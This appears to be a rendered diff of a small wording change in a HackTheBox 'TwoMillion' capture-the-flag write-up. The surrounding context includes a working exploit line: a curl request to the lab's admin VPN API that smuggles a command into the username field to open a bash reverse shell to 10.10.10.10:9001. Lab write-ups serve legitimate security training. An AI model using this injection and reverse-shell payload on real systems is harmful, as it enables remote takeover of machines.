

Before and after one commit to ACHUX21/Writeups, a Markdown page: HackTheBox/TwoMillion/Readme.md, the part around the change. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

````diff
--- a/HackTheBox/TwoMillion/Readme.md
+++ b/HackTheBox/TwoMillion/Readme.md
@@ -171,7 +171,7 @@ It seems that after spending some time searching, I have discovered a vulnerabil
   <img src="pic/pic9.png" alt="Alt Text">
 </a>
 
-Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it
+Now that we have identified vulnerability, we can exploit it
 
 ```bash
 curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
````
